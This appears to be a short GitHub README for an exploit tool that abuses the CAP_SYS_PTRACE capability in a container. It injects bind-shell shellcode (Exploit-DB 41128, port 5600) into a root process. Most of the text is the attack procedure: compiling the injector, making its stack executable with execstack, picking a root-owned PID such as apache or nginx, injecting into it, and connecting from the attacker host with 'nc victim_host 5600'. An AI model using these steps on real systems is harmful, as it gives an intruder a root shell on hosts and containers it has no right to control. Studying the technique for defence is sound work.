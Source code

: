 # memory_inject CAP_SYS_PTRACE capability

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

1) The EUID of the process in 0 (aka privileged process)
2) The program file has CAP_SYS_PTRACE capability to debug the process 

TCP bind shell

victim host
1) $ gcc -o inject_mem inject_mem.c
2) $ execstack -s inject_mem
3) $ ps -eaf -> find pid number under root (apache, nginx, python, etc)
4) $ ./inject_me pid_number

attacker host
1) $ nc victim_host 5600

Usually, in a normal container, you will not have cap_sys_ptrace capability but in this case, the creator has enabled this explicitly. This means any process the started in the container can debug the process and perform RW operations in the memory.
